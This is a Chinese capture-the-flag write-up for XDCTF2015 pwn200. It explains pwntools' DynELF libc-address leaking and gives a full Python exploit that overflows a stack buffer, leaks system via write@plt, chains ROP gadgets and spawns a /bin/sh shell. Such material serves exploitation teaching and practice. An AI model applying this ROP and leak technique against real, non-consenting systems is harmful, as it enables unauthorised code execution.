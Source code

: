 ```yaml
---
title: CTF | XDCTF2015-pwn200(DynELF)
date: 2018-03-18 19:40:11
---
```

该题用到了 `DynELF` 技术  

`DynELF` 是 `pwntools` 中专门用来应对无 `libc` 情况的漏洞利用模块，其基本代码框架如下。
```python
p = process('./xxx')
def leak(address):
  #各种预处理
  payload = "xxxxxxxx" + address + "xxxxxxxx"
  p.send(payload)
  #各种处理
  data = p.recv(4)
  return data
d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
再看 `read` 函数：
定义函数：`ssize_t read(int fd, void * buf, size_t count);  `
函数说明：`read()`会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.  若参数 `count` 为 0, 则read()不会有作用并返回0. 返回值为实际读取到的字节数, 如果返回0, 表示已到达文件尾或是无可读取的数据,此外文件读写位置会随读取到的字节移动.  

思路：   
1.调用 `main` 函数循环利用    
2.泄露出 `system` 地址   
3.写入`”/bin/sh” `   
4.调用 `system` 获取 `shell` ，在实际调用 `system` 前，需要通过三次 `pop` 操作来将栈指针指向 `systemAddress` 。保证堆栈平衡

查找gadget：
`ROPgadget --binary pwn200 --only "pop|ret"`   
使用：
`0x08048649 : pop esi ; pop edi ; pop ebp ; ret`   

```python
from pwn import *
elf = ELF('./pwn200')
io = process('./pwn200')
write_plt = elf.plt['write'] # symbols 也可以
read_plt = elf.plt['read']
main_addr = 0x80483e0 
bss_addr = elf.bss() #用来存储'/bin/sh'
pppr = 0x08048649 

def leak(addr):
    io.recvuntil('Welcome to XDCTF2015~!\n')
    payload = 'a'*112+p32(write_plt)+p32(main_addr)+p32(1)+p32(addr)+p32(4)
    io.sendline(payload)
    msg = io.recv(4)
    return msg

dyn = DynELF(leak,elf=elf)  
sys_addr = dyn.lookup('system','libc')
payload = 'a'*112+p32(read_plt)+p32(pppr)+p32(0)+p32(bss_addr)+p32(8)+p32(sys_addr)+p32(main_addr)+p32(bss_addr)
io.sendline(payload)
io.sendline('/bin/sh\0')
io.interactive()
```
